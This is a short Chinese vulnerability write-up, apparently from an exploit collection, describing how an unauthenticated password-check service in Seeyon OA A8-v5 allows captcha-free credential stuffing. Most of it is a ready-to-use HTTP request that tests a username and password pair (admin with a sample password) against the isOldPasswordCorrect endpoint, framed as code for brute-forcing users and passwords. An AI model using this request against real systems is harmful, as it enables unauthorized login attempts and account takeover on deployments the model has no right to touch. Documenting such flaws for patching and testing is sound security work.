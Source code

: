 致远OA A8-v5 无视验证码撞库
===========================

一、漏洞简介
------------

致远A8-V5在设计时存在逻辑错误，用户修改密码时对原密码进行了验证，但是验证使用的服务存在未授权访问漏洞，系统对非合法请求的原密码验证功能进行回应，导致了无视验证码，无需login页面进行密码尝试

二、漏洞影响
------------

致远OA A8-v5

三、复现过程
------------

POST穷举用户和密码代码如下

    GET /seeyon/getAjaxDataServlet?S=ajaxOrgManager&M=isOldPasswordCorrect&CL=true&RVT=XML&P_1_String=admin&P_2_String=wy123456 HTTP/1.0

    Accept: */*

    Accept-Language: zh-cn

    Referer: http://www.0-sec.org/seeyon/individualManager.do?method=managerFrame

    requesttype: AJAX

    Content-Type: application/x-www-form-urlencoded

    Cookie: 

    User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko

    Host: www.0-sec.org

    DNT: 1

    Proxy-Connection: Keep-Alive

![](./.resource/致远OAA8-v5无视验证码撞库/media/rId24.shtml)
